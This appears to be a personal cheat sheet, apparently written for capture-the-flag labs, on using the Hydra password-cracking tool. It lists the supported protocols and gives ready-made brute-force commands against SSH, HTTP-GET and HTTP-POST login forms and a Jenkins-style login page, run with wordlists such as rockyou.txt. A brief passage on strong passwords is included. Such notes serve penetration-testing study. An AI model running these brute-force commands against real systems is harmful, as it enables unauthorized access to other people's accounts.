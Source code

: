 Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://en.kali.tools/?p=220).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.


For example, 
`hydra -l root -P passwords.txt 10.10.250.4 -t 4 ssh`


```
Tool install command:-
	sudo apt install hydra

Commnand for bruteforce a login form (http-get) request:-
	hydra -l bob -P /opt/rockyou.txt 10.10.202.79 http-get "/protected" -vV
```


```
### Post Web Form

Ex:
	sudo hydra <username> <wordlist> 10.10.250.4 http-post-form "<path>:<login_credentials>:<invalid_response>"

|Option|Description|
|---|---|
|`-l`                    |the username for (web form) login|
|`-P`                    |the password list to use|
|`http-post-form`        |the type of the form is POST|
|`<path>`                |the login page URL, for example, `login.php`|
|`<login_credentials>`   |the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`    |part of the response when the login fails|
|`-V`                    |verbose output for every attempt|



hydra -l <username> -P <wordlist> 10.10.250.4 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -vV
```


```
hydra -s 8080 -L user.txt -P password.txt 10.10.19.117 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:Invalid username or password" -f
```


- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails